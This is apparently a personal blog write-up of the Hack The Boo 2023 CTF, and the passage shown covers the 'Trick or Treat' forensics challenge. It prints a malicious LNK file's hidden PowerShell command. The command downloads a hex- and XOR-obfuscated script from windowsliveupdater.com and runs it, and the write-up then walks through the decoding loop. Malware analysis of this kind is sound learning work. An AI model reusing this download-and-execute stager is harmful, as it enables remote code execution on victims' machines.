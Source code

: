 ```yaml
---
layout: single
title:  "Hack The Boo 2023 CTF - Forensics and Web Writeup"
seo_title: "Hack The Box (HTB) writeup for the Forensics and Web Challenges of the Hack The Boo 2023 CTF Competition"
date:   2023-10-28 15:30:00 +0200
categories: ['HackTheBox', 'CTF', 'Forensics', 'Web-Exploitation']
classes: wide
toc: true
excerpt: Hack The Boo 2023 CTF writeups for the forensics and web challenges.
header:
    image: /assets/images/headers/htboo-ctf.jpg
    teaser: /assets/images/headers/htboo-ctf.jpg
---
```

# Hack The Boo 2023 CTF - Forensics and Web Writeup
For this years halloween I decided to participate in the Hack The Boo CTF competition from Hack the Box. Despite this being my first solo public CTF competition, I still managed to climb to leaderboards and reach top 50 (48th to be exact). In total I managed to capture 7 out of the 10 flags, some easier than others. In this post I will delve into how I managed to solve the forensics and web challenges, as those where the areas my skills stuck out the most.

## Forensics - Trick or Treat
### Description
Another night staying alone at home during Halloween. But someone wanted to play a Halloween game with me. They emailed me the subject "Trick or Treat" and an attachment. When I opened the file, a black screen appeared for a second on my screen. It wasn't so scary; maybe the season is not so spooky after all.

### LNK File
We start our investigation by analyzing the `.lnk` file with `exiftools` by executing `exiftools trick_or_treat.lnk` on the file. Inside the file information we find something strange:
```
Working Directory               : C:
Command Line Arguments          : /k for /f "tokens=*" %a in ('dir C:\Windows\SysWow64\WindowsPowerShell\v1.0\*rshell.exe /s /b /od') do call %a -windowstyle hidden "$asvods ='';$UserAgents = @('Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36','Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/15.15063','Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; AS; rv:11.0) like Gecko');$RandomUserAgent = $UserAgents | Get-Random;$WebClient = New-Object System.Net.WebClient;$WebClient.Headers.Add('User-Agent', $RandomUserAgent);$boddmei = $WebClient.DownloadString('http://windowsliveupdater.com');$vurnwos ='';for($i=0;$i -le $boddmei.Length-2;$i=$i+2){$bodms=$boddmei[$i]+$boddmei[$i+1];$decodedChar = [char]([convert]::ToInt16($bodms, 16));$xoredChar=[char]([byte]($decodedChar) -bxor 0x1d);$vurnwos = $vurnwos + $xoredChar};Invoke-Command -ScriptBlock ([Scriptblock]::Create($vurnwos));Invoke-Command -ScriptBlock ([Scriptblock]::Create($asvods));
Icon File Name                  : C:\Windows\System32\shell32.dl
```
Let us take some time to analyze the behavior. The script first selects a random User-Agent from the crafted `$UserAgents` array. It then uses a WebClient to download the contents of the specified URL (http://windowsliveupdater.com) and decodes the obfuscated file as follows:
```powershell
$vurnwos ='';
for($i=0;$i -le $boddmei.Length-2;$i=$i+2){
    $bodms=$boddmei[$i]+$boddmei[$i+1];
    $decodedChar = [char]([convert]::ToInt16($bodms, 16));
    $xoredChar=[char]([byte]($decodedChar) -bxor 0x1d);
    $vurnwos = $vurnwos + $xoredChar
};
```